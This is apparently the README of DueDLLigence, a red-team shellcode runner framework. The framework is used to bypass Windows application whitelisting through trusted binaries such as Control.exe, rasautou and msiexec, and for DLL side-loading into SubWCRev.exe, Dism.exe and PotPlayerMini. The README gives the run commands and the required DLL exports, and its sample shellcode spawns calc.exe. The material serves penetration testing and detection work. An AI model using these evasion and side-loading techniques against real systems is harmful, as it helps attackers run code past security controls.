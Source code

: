 # DueDLLigence

Shellcode runner framework for application whitelisting bypasses and DLL side-loading. The shellcode included in this project spawns calc.exe.


If desired, change the injection type by modifying the following line to the appropriate injection type
<br>```public const ExecutionMethod method = ExecutionMethod.CreateThread;```

Running the DLL with the following legitimate exes 

## Application Whitelisting Bypasses. Lolbins

### Control.exe
Export: CPlApplet
Syntax: Rename compiled “dll” extension to “cpl” and just double click it!
<br>```Control.exe [cplfile]```
<br>```Rundll32.exe Shell32.dll, Control_RunDLL [cplfile]```

### Rasautou
Export: powershell
<br>```rasautou –d {dllpayload} –p powershell –a a –e e```

### Msiexec
Export: DllUnregisterServer
<br>```msiexec /z {full path to msiexec.dll}```

## DLL Side-Loading Binaries and Details
### Tortoise SVN (SubWCRev.exe)
DLL == "crshhndl.dll"; Arch == x64; OS == Win7 & 10;
<br>Exports: InitCrashHandler,SendReport,IsReadyToExit,SetCustomInfo,AddUserInfoToReport,RemoveUserInfoFromReport,AddFileToReport,RemoveFileFromReport,GetVersionFromApp,GetVersionFromFile

### Dism Image Servicing Utility (Dism.exe)
DLL == "DismCore.dll"; Arch == x64; OS == Win7 & 10;
<br>Export: DllGetClassObject

### PotPlayerMini
DLL == "PotPlayer.dll"; Arch == x86;
<br>Exports: PreprocessCmdLineExW,UninitPotPlayer,CreatePotPlayerExW,DestroyPotPlayer,SetPotPlayRegKeyW,RunPotPlayer

Credit for the DueDLLigence name goes to Paul Sanders (@saul_panders)
